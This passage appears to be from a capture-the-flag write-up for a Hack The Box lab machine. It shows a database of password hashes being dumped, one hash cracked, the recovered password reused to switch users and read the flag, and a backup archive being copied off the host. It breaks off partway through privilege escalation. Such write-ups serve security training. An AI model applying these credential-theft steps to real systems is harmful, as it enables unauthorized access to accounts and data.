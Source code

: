 
### Lateral movement
The app.py file contains a potential password:
```bash
app.secret_key = "Sup3rS3cr3tKey4rtIfici4L"
```

Enumerte the users DB:
```bash
app@artificial:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|testing|test@gmail.com|55696cd1bf228fba32eba3db394dc5aa
7|giiker|giiker@test.com|b9882bca60bd9cfcb65b187acfb8ae8b
8|test|test@example.com|098f6bcd4621d373cade4e832627b4f6
```

Crack the hash using crackstation.net:
![Pasted image 20250829134525.png](/images/Pasted image 20250829134525.png){: .normal }
```bash
mattp005numbertwo
```

Use this password to switch to the gael user:
```bash
app@artificial:~$ su gael
Password: 
gael@artificial:/home/app$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

User.txt: `d82b5949c5ec136ba288046481d46e6a`
```bash
gael@artificial:~$ cat user.txt
d82b5949c5ec136ba288046481d46e6a
```


### Privilege Escalation
We are part of the sysadm group, this group has read privileges over a backup file:
```bash
/var/backups/backrest_backup.tar.gz
```

Transfer the file:
```bash
scp gael@10.10.11.74:/var/backups/backrest_backup.tar.gz .
# Pass: mattp005numbertwo
```
